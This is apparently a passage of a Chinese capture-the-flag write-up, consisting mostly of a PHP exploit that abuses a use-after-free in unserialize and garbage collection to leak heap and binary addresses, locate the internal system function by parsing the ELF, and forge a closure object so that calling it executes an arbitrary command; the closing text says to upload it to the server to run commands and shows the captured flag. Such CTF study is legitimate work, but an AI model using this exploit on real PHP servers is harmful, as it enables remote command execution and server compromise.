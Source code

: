 ```
    $poc = 'a:4:`{`i:0;i:1;i:1;a:1:`{`i:0;O:4:"ryat":2:`{`s:4:"ryat";R:3;s:4:"chtg";i:2;`}``}`i:1;i:3;i:2;R:5;`}`';
    $out = unserialize($poc);
    gc_collect_cycles();
    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];
    $helper = new Helper;
    $helper-&gt;b = function ($x) `{` `}`;
    if(strlen($abc) == 79 || strlen($abc) == 0) `{`
        die("UAF failed");
    `}`
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
    $closure_obj = str2ptr($abc, 0x20);
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) `{`
        die("Couldn't determine binary base address");
    `}`
    if(!($elf = parse_elf($base))) `{`
        die("Couldn't parse ELF header");
    `}`
    if(!($basic_funcs = get_basic_funcs($base, $elf))) `{`
        die("Couldn't get basic_functions address");
    `}`
    if(!($zif_system = get_system($basic_funcs))) `{`
        die("Couldn't get zif_system address");
    `}`
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i &lt; 0x110; $i += 8) `{`
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    `}`
    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
    ($helper-&gt;b)($cmd);
    exit();
`}`
?&gt;
```

将这个上传到服务器，就能执行命令了，访问就得到了`flag`。

```
flag`{`4424232f-959f-4923-b693-cd9b3e7e316f`}`
```
